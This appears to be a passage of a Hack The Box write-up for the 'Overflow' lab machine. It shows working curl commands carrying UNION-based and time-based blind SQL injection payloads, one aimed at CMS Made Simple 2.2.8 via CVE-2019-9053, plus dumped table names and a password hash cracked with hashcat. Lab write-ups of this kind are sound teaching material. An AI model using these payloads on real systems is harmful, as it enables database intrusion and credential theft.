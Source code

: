 ```bash
declare -a payloads=(
    $'group_concat(table_name)+from+information_schema.tables+where+table_schema+%3d+\'cmsmsdb\'+--+-'
    $'group_concat(table_name)+from+information_schema.tables+where+table_schema+%3d+\'Overflow\'+--+-'
    $'group_concat(table_name)+from+information_schema.tables+where+table_schema+%3d+\'develop\'+--+-')
for p in "${payloads[@]}"; do
    curl -i -s -k -X $'GET' \
        -H $'Host: overflow.htb' \
        -b $'auth=A54aWjWWqj93DBpOuslsPwAAAAAAAAAA; CMSSESSIDf25decdf38ae=rcli3spa091baa9gtfjpgfkpd0' \
        -x $'http://127.0.0.1:8080'
        $'http://overflow.htb/home/logs.php?name=admin\')+UNION+ALL+SELECT+NULL,NULL,'"${p}"
done
```

```
cms_additional_users,cms_additional_users_seq,cms_admin_bookmarks,cms_admin_bookmarks_seq,cms_adminlog,cms_content,cms_content_props,cms_content_props_seq,cms_content_seq,cms_event_handler_seq,cms_event_handlers,cms_events,cms_events_seq,cms_group_perms,cms_group_perms_seq,cms_groups,cms_groups_seq,cms_layout_design_cssassoc,cms_layout_des
users
```

Digging deeper in the DB:

```
e3d748d58b58657bfa4dffe2def0b1c7:6c2d17f37e226486
```

```bash
hashcat -O -w 3 -a 0 -m 20 hash.editor /usr/share/wordlists/passwords/rockyou.txt
```

> e3d748d58b58657bfa4dffe2def0b1c7:6c2d17f37e226486:alpha!@#$%bravo

Finally... This works for the user `editor` on the CMS MS console.

## CMS Console to System User

The console runs CMS MS version `2.2.8`:

![][cmsms-version]

### Trying Unauthenticated CVEs

The unauthenticated CVEs somehow fail here:

- [CVE-2019-9053][cve-2019-9053]
- [CVE-2019-9060][cve-2019-9060]

The CVE `9060` has no available POC. `9053` is a blind SQL injection, it can be
tested manually with:

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: 10.10.11.119' \
    -b $'auth=A54aWjWWqj93DBpOuslsPwAAAAAAAAAA; CMSSESSIDf25decdf38ae=rcli3spa091baa9gtfjpgfkpd0' \
    $'http://10.10.11.119/admin_cms_panel/moduleinterface.php?mact=News,m1_,default,0&m1_idlist=a,b,1,5))+and+(select+sleep(2)+from+cms_siteprefs+where+sitepref_value+like+0x6125+and+sitepref_name+like+0x736974656d61736b)+--+-'
```


[author-profile]: https://app.hackthebox.com/users/172213
[blog-posts]: images/screenshots/blog-posts.png
[cmsms-version]: images/screenshots/cmsms-version.png
[cmsms-exploit]: https://www.rapid7.com/db/modules/exploit/multi/http/cmsms_object_injection_rce/
[cve-2019-9053]: https://www.exploit-db.com/exploits/46635
[cve-2019-9060]: https://nvd.nist.gov/vuln/detail/CVE-2019-9060
[user-profile]: images/screenshots/profile.png